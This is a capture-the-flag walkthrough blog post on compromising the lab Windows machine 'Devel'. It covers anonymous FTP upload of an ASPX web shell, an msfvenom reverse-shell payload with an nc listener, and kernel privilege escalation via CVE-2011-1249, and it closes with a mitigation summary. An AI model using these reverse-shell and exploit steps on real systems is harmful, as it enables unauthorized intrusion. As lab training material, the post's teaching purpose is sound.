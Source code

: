 ```yaml
---
layout: single
classes: wide
title: 'Devel-Walkthrough'
date: '2024-05-29T11:33:22.318Z'
keywords: []
tags: 
  - Identification-and-authentication-failures
  - Uncontrolled-file-upload
  - Missing-security-patches
sidebar:
  nav: "sidebar"
permalink: /Devel/
---
```


## Walkthrough - Devel

![Devel machine exploitation matrix](/assets/images/1__E89__CXQXg__HC3aRCjl7LDw.png "Figure 1 -Devel machine exploitation matrix")

Devel is a relatively straightforward machine running the Microsoft Windows OS that shows how weak authentication to file servers, uncontrolled file uploads and missing security patches, combined, can lead to the complete compromise of a web application.  As a result the file transfer protocol (FTP) server allowing ANONYMOUS access, I was able to login to the FTP server without credentials.  As a result of the IIS web server not restricting what file types can be uploaded to it, I was able to upload and execute a malicious ASPX file containing a reverse shell payload on the victim machine to gain a foothold as a low privileged, non-administrative user. As a result of missing security patches, a kernel vulnerability that leads to privilege escalation was exploited to give me root user as **NT Authority\\System.**

In the last section, I've included a summary of all the vulnerabilities found on this machine and security controls to mitigate exploitation.

## Step 1 — Enumeration

As a first step, I try to gather as much as information as I can about the target machine such as open ports, running services, OS and version etc. For this I use **Nmap** tool with below syntax. Brief explanation of flags:

* \-sV — Detect services running at IP address and their versions
* \-sC — Run the default set of Nmap scripts to gather more information
* \-T4 — Speed up the performance of the scan

```bash
Nmap \-sV \-sC \-T4
```

![Nmap scan output](/assets/images/1__m3sksBlneos6fysIWbUorw.png "Figure 2 - Nmap scan output")

The information from the Nmap scan is very interesting and suggests some initial attack vector we can use to exploit. In addition to ANONYMOUS login being enabled on the FTP server, the files **iisstart.htm** and **welcome.png** are actually the files hosted at the web server root!

At this point, I usually like to further enumerate with tools like GoBuster using a good word list to search for hidden directories that could contain sensitive data such as **/Admin**. However, as the web root directory appears to be accessible via FTP, I will focus my attack in this direction.

## Step 2 — Gaining foothold as low privileged web application user

As the web root directory can be accessed via the FTP server, I upload a simple ASPX web shell to test both if the FTP grants write privileges, and if so, whether remote command execution (RCE) is possible.

### Testing for RCE on web server

I locate the default web shell for ASPX in Kali Linux and copy it to my local user desktop, and then upload it to the web root via FTP **PUT** command. As Anonymous FTP login is enabled, user ID is just **Anonymous** with **blank password**.

```bash
ftp 10.10.10.5
```

![ASPX webshell uploaded to victim machine](/assets/images/1__JliQL2Ow8NopIyKGywvS6Q.png "Figure 3 - ASPX webshell uploaded to victim machine")

I then access to the web shell via the browser at [http://10.10.10.5/cmdasp.aspx](http://10.10.10.5/cmdasp.aspx). I test RCE by issuing the **Whoami** command. The command is successful, returning the login ID of the currently logged in user, **iis apppool\\web,** confirming we have RCE.

![Successful remote code execution on victim machine](/assets/images/1__v9blxScERuGHExhmIzFcXA.png "Figure 4 - Successfule remote code execution on victim machine")

### Obtaining a reverse shell to victim machine as low-level privileged user

The next step after validating RCE is to obtain a reverse shell. There are several ways to obtain a reverse shell, but here I will create a custom payload encoded in the ASPX format using **msfvenom** (component of MetaSploit framework — Read more [**here**](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html).) I will upload this payload to web server via FTP put command as shown above. Explanation of flags and parameters:

* \-p — payload selection (simple reverse shell over TCP chosen)
* LHOST — The local IP of my Kali instance as the attacking machine
* LPORT — The local port for victim to connect (can be any open port)
* \-f — payload encoding (choose ASPX to match web server language)
* \-o — Output file name

```bash
msfvenom -p windows/shell\_reverse\_tcp LHOST 10.10.10.30 LPORT 4444 -f aspx -o reverseshell.aspx
```

Next, I will set up a Net Cat listener on my machine in listen mode to catch the reverse shell once the malicious ASPX page is accessed on the web server. Explanation of flags and input parameters:

* \-l — Put Net Cat into listening mode
* \-v — Enable verbose output (use -vv for more verbosity)
* \-n — Do not resolve DNS
* \-p — Port to listen on (choose 4444 to match payload from msvenom)

```bash
nc -lvnp 4444
```

![NetCat listener set up on my machine to catch reverse shell connection from victim machine](/assets/images/1__DIk9__HtBCf__KjWeqB1XvYA.png "Figure 6 - NetCat listener set up on my Kali Linux machine to catch reverse shell connection from victim computer")

Upon issuing a cURL command to the victim’s IP address in the Kali console, Net Cat will catch the reverse shell and we gain access to the victim’s machine as the low privileged user, **iis apppool\\web**

```bash
curl <http://10.10.10.5/reverseshell.aspx>
```

![Successful reverse shell connection established on victim machine](/assets/images/1__W3y3yPv__7__NE57UXB__GTwQ.png "Figure 7 - Successful reverse shell connection established on victim computer")

## Step 3 — Privilege escalation to root user as NT Authority\\System

### Enumerating Victim Computer for Vulnerabilities to escalate privileges

The next step after gaining an initial foothold is to escalate our privileges to the ROOT user as **NT Authority\\System**. The first step I do is run the **systeminfo** command which will output detailed information about the victim’s machine such as the OS build version, patches applied etc. The output of systeminfo below shows the OS version to be **6.1.7600 N/A Build 7600** and more importantly, **no hotfix patches have been applied**!

![Systeminfo command output showing missing security patches on victim's machine](/assets/images/1__Nx__Evi4GZDYU73bax42cXw.png "Figure 8 - Systeminfo command output showing missing security patches")

A simple Google search for “**privesc 6.1.7600 N/A Build 7600**” reveals the victim’s machine is vulnerable to **CVE-2011–1249** caused by the Windows ancillary function driver (Afd driver) running in elevated kernel mode improperly validating input passed to it from non — elevated user mode. CVE-2011–1249 already exists within the OffSec exploit database so the raw exploit code can be accessed using the **searchsploit** command in Kali Linux and copied to working directory with the -m flag.

![CVE-2011-1249 vulnerability details](/assets/images/1__63BdYjOulxxU92__oqL2hXg.png "Figure 9 - CVE-2011-1249 vulnerability details")

### Compiling vulnerability exploit code into an executable program

I run the one-line code to compile the exploit executable in the same directory on my Kali Linux machine where I downloaded the raw exploit. 40564.C is the raw exploit code from searchsploit -m 40564.c command.

![Compiled vulnerability executable](/assets/images/1__hcp__TtfkzlQCHzhd9xweHA.png "Figure 10 - Compiled vulnerability exploit into executable program")

### Executing vulneraiblity exploit on victim machine to escalate access privileges to ROOT user

The final step is to transfer the malicious payload from my Kali Linux machine to the victim’s machine and execute it there, for which I will use the **Impacket smbserver.py** script from the Impacket scripts bundle. I create a directory that will be shared with the victim (share) and copy the exploit executable to this directory. Upon the victim (Devel) successfully authenticating to my malicious SMB share, the exploit executes, giving me root as **NT authority\\system.**

![Successful incoming connection to SMB file share by victim computer](/assets/images/1__Z54iWr4b0zMGwf5jTQmzDw.png "Figure 11 - Successful catching of reverse shell connection from victim computer to my Kali Linux machine")
![Successful CVE-2011-1249 exploitaition leading to ROOT user privileges](/assets/images/1__iGGcd78yopUMBy8yb3KFNw.png "Figure 12 - Successful elevation of privilges to ROOT user via exploitation of CVE-2011-1249 vulnerability")

## Vulnerability summary

The machine demonstrated the following vulnerabilities:

* **Arbitrary file upload -** Vulnerability allows a malicious user to upload dangerous file types directly to a web server. In this example, as a result of the web server not validating the file extensions and content of files uploaded, I was able to upload a malicious ASPX file containing a reverse shell payload allowing me to gain unauthorized access on the web server for initial foothold.

* **Security misconfiguration —** Vulnerability due to insecure settings allows malicious actors to take malicious actions. In this example, there are two misconfigurations that allowed compromise:

  * FTP configured to allow ANONYMOUS authentication with PUT (write) privileges to the same root directory as the web server

  * Execute privileges being enabled on the web server root directory where arbitrary files are uploaded.

* **Missing security patches —** As a result of missing hotfix patches, I was able to use a publicly released vulnerability exploit to escalate my access to root user upon gaining initial foothold on machine

